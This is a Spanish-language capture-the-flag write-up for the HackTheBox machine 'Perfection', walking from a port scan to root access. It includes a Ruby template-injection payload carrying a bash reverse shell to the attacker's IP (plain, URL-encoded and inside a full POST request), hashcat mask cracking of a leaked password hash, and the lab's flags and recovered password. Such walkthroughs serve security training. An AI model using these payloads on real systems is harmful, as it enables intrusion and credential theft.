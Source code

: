# Write Up Perfection HackTheBox

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-10 09:05 EDT
Nmap scan report for 10.10.11.253
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   43.37 ms 10.10.14.1
2   43.43 ms 10.10.11.253

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.23 seconds
```

### Puerto 80

Vamos a `/weighted-grade/`...

Una vez sabemos que Ruby es vulnerable a codigos de inyeccion, abrimos BurpSuit capturamos la peticion ingresando en la tabla donde hay que colocar numero que llegue hasta 100 para que funcione y en la de texto lo que sea...

```
Category 	Grade 	Weight (%)
a			0			100
a			0			0
a			0			0
a			0			0
a			0			0
```

Una vez que capturemos con el BurpSuit esa peticion, modificaremos la seccion de `Category` para ahi inyectar codigo de Ruby

El codigo a pelo no te va a dejar `<%= 7 * 7 %>` por lo que lo codificamos en URL pero haciendonos una Reverse Shell de la siguiente manera...

```shell
<%= IO.popen('bash -c "sh -i >& /dev/tcp/<IP>/<PORT> 0>&1"').readlines()  %>
```

```shell
%3c%25%3d%20%49%4f%2e%70%6f%70%65%6e%28%27%62%61%73%68%20%2d%63%20%22%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%38%30%2f%37%37%37%37%20%30%3e%26%31%22%27%29%2e%72%65%61%64%6c%69%6e%65%73%28%29%20%20%25%3e%0a
```

Pero si lo metemos ahi directamente no ira, por lo que al principio y al final le añadimos algo de texto...

```shell
test%3c%25%3d%20%49%4f%2e%70%6f%70%65%6e%28%27%62%61%73%68%20%2d%63%20%22%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%38%30%2f%37%37%37%37%20%30%3e%26%31%22%27%29%2e%72%65%61%64%6c%69%6e%65%73%28%29%20%20%25%3e%0atest
```

Y esto si funcionaria...

Info:

```
POST /weighted-grade-calc HTTP/1.1

Host: 10.10.11.253

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 410

Origin: http://10.10.11.253

Connection: close

Referer: http://10.10.11.253/weighted-grade-calc

Upgrade-Insecure-Requests: 1



category1=test%3c%25%3d%20%49%4f%2e%70%6f%70%65%6e%28%27%62%61%73%68%20%2d%63%20%22%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%38%30%2f%37%37%37%37%20%30%3e%26%31%22%27%29%2e%72%65%61%64%6c%69%6e%65%73%28%29%20%20%25%3e%0atest&grade1=0&weight1=100&category2=aa&grade2=0&weight2=0&category3=a&grade3=0&weight3=0&category4=a&grade4=0&weight4=0&category5=a&grade5=0&weight5=0
```

Una vez echo esto, tendriamos una shell con el usuario `susan` la sanitizamos...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Ahora leemos la flag en la home de este usuario...

> user.txt (flag1)

```
2368118f5426a880d7918d5a522156f7
```

Si nos vamos a `Migration` y leemos el .db llamado `pupilpath_credentials.db`...

```
��^�ableusersusersCREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
a�\
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

Nos aparece lo que parece ser la contraseña de `susan`

```
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

Si ponemos el siguiente comando...

```shell
find / -name susan -type f 2>/dev/null | grep -v "proc/*" | grep -v "sys/*"
```

Nos mostrara lo siguiente...

```
/var/mail/susan
```

Y si leemos eso nos muestra...

```
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

Por lo que para Deshashear ese hash que encontramos con estas pistas haremos lo siguiente...

```
hashcat -m  1400 -a 3 hash susan_nasus_?d?d?d?d?d?d?d?d?d
```

Info:

```
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

```
Password = susan_nasus_413759210
```

Si hacemos `sudo -l` veremos que tenemos todos los permisos como `root` por lo que hacemos lo siguiente...

```shell
sudo su
```

Y ya seriamos `root` por lo que vamos a `/root/` y leemos la flag...

> root.txt (flag2)

```
4a918b542b359a8bb20666a315217f39
```
